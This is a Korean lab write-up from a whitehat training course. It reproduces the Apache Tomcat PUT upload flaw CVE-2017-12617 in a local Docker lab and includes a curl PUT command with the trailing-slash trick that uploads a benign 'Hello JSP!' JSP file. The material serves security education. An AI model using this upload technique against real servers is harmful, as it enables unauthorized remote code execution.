 # Apache Tomcat PUT Upload 취약점 (CVE-2017-12617)

## 화이트햇 스쿨 3기 35반 편정혜\_9212

## 취약점 정보

- **CVE ID**: CVE-2017-12617
- **취약점 설명**: Apache Tomcat 7.0.0 ~ 7.0.81 (Windows 환경)에서 HTTP PUT 메서드를 이용해 인증 없이 JSP 파일 업로드 및 실행이 가능합니다.
- **공격 방식**: HTTP PUT 메서드를 이용하여 JSP 파일 업로드 후 실행
- **영향**: 원격 코드 실행 (RCE)
- **공식 설명 링크**: [https://nvd.nist.gov/vuln/detail/CVE-2017-12617](https://nvd.nist.gov/vuln/detail/CVE-2017-12617)

## 환경 구축

- Docker
- docker-compose
- 테스트 브라우저: Chrome
- 터미널: CMD (또는 PowerShell)
- 운영체제: Windows 10

## 실행

### 1. 취약 환경 레포 클론

kr-vulhub 저장소를 클론하여 CVE-2017-12617로 이동합니다.

`git clone https://github.com/gunh0/kr-vulhub.git`

[https://github.com/gunh0/kr-vulhub](https://github.com/gunh0/kr-vulhub)

### 2. 컨테이너 빌드 및 실행

Docker를 이용하여 Tomcat 서버를 빌드 및 실행합니다.

`docker-compose up --build`

[server-build](./capture1.png)

이후 http://localhost:8080으로 접속이 가능합니다.

[server-start](./capture2.png)

### 3. shell.jsp 파일 업로드

PUT 메서드를 이용하여 JSP 파일을 업로드합니다.

`curl -v -X PUT "http://localhost:8080/shell.jsp/" --data-binary "<% out.println(\"Hello JSP!\"); %>"`

업로드가 정상적으로 완료되면 HTTP/1.1 201 Created 또는 204 No Content 응답을 받습니다.

[shelljsp](./captrue3.png)

### 4. 브라우저로 JSP 파일 실행

브라우저의 주소창에 다음 URL을 입력하여 업로드 된 파일을 실행합니다.

`http://localhost:8080/shell.jsp`

이 때, "Hello JSP!" 문구가 출력되면 PoC 성공입니다.

[Hello-JSP](./capture4.png)

## 결론

이번 실습에서는 Apache Tomcat 7.0.81 버전의 PUT 메서드 취약점을 이용하여 인증 없이 JSP 파일을 업로드하고 실행하는 과정을 재현하였습니다.
Docker를 이용해 취약 환경을 구축하였으며, curl 명령어를 통해 shell.jsp 파일을 업로드하고 브라우저에서 직접 "Hello JSP!" 문구가 출력되는 것을 확인했습니다.
이를 통해 Tomcat 서버의 설정 미비가 심각한 보안 위협(RCE)으로 이어질 수 있음을 실습을 통해 검증할 수 있었습니다.

---

### Github repository

- 35반 편정혜 github 레포: [https://github.com/rainyhye/kr-vulhub](https://github.com/rainyhye/kr-vulhub)
